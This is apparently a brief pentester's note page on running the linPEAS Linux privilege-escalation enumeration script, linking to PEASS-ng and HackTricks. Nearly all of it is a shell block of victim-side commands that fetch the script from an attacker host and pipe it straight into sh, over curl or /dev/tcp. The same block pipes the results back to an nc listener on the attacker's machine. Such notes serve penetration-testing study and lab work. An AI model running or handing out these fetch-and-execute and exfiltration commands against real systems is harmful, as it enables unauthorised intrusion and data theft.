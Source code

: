 +++
title = "linpeas"
author = ["svejk"]
tags = ["linux", "privesc", "pentest", "enumeration"]
draft = false
+++

See carlospolop : [PEASS-ng](https://github.com/carlospolop/PEASS-ng)  [hacktricks](https://book.hacktricks.xyz/)


## Execution: {#execution}

Run from memory and send back to attacker:

```shell
# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
